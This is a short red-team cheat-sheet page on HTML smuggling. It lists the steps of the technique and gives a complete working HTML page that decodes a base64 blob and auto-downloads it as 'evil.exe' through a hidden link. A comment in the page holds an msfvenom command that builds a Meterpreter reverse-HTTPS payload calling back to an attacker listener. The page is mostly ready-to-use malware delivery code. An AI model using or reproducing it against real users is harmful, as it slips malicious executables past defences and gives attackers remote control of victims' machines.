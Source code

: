 # HTML Smuggling

* [https://github.com/nccgroup/demiguise](https://github.com/nccgroup/demiguise)

How-to:

1. Base64 code is placed into an array buffer, byte-by-byte.
2. The array buffer is placed into the binary blob.
3. A hidden `a` tag is created.
4. The data from the binary blob is moved to the href reference of the `a` tag.
5. The code from the binary blob is given the file name of `evil.exe`.
6. Finally, a click action is performed to download the file.

{% code title="smuggling.html" %}
```html
<html>
   <body>
      <script>
         function base64ToArrayBuffer(base64) {
             var binary_string = window.atob(base64);
             var len = binary_string.length;
             var bytes = new Uint8Array( len );
             for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
             return bytes.buffer;
         }
		 <!--
		 msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f exe -o evil.exe
		 base64 -w0 evil.exe | xclip -i -sel clipboard
		 -->
         var file ='<METERPRETER_BASE64_CONTENTS>'
         var data = base64ToArrayBuffer(file);
         var blob = new Blob([data], {type: 'octet/stream'});
         var fileName = 'evil.exe';
         var a = document.createElement('a');
         document.body.appendChild(a);
         a.style = 'display: none';
         var url = window.URL.createObjectURL(blob);
         a.href = url;
         a.download = fileName;
         a.click();
         window.URL.revokeObjectURL(url);
      </script>
   </body>
</html>
```
{% endcode %}

Note that this page will work when browsed with Google Chrome (since it supports `window.URL.createObjectURL`). This technique must be modified to work against browsers like IE or Microsoft Edge.
